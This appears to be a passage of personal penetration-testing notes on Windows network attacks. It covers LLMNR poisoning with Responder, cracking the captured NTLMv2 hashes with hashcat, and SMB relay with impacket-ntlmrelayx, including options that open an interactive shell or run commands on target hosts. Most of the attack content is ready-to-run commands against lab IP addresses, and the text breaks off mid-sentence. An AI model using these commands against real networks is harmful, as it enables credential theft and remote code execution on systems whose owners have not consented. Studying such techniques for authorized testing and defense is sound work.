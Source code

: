 ## 1. LLMNR Poisoning - NC

#### Tools
* **Responder**

#### Attack
```
sudo responder -I eth0 -dwv 
```

#### Event
* When any user in tries to connect to another user or file share which the domain server can not resolve to any location, responder sends poisoned response and replies on behalf of the server that it knows where the destination is and asks for hash to authenticate and referred to the location which results in our output **(NTLMV2 Hash)**
#### Output 
* NTLM V2 hash
* Use [[Hashcat]] to crack plaintext password from the hash :
```
	hashcat -m 5600 hash.txt wordlist.txt
	hashcat -m 5600 hash.txt wordlist.txt --show
```


---

## 2. SMB Relay Attack - NC

#### Tools
- **nmap**
- **Responder**
* **impacket-ntlmrelayx**
* **ntlmrelayx.py**

### Requirement
1. The host needs to have SMB sign in enabled but not enforced/ required. Check with following command 
   ==``` nmap --script=smb2-security-mode.nse -p445 -Pn 192.168.57.135 ```==
2. Responder needs to have ==` HTTP `== and ==` smb `== switched off
   ==``` sudo mousepad /etc/responder/Responder.conf ```==
3. Create a file with target IPs for ease of attack
   ==``` echo "192.168.57.130\n192.168.57.131" > targets.txt ```==

#### Attack
```
	sudo responder -I eth0 -dwv
	sudo impacket-ntlmrelayx -tf targets.txt --smb2support
				OR
	sudo impacket-ntlmrelayx -tf targets.txt --smb2support -i
				OR
	sudo impacket-ntlmrelayx -tf targets.txt --smb2support -c 'whoami'
```
- ==`-i`== option will create a interactive shell instance which can be used to bind with using ==` netcat `== :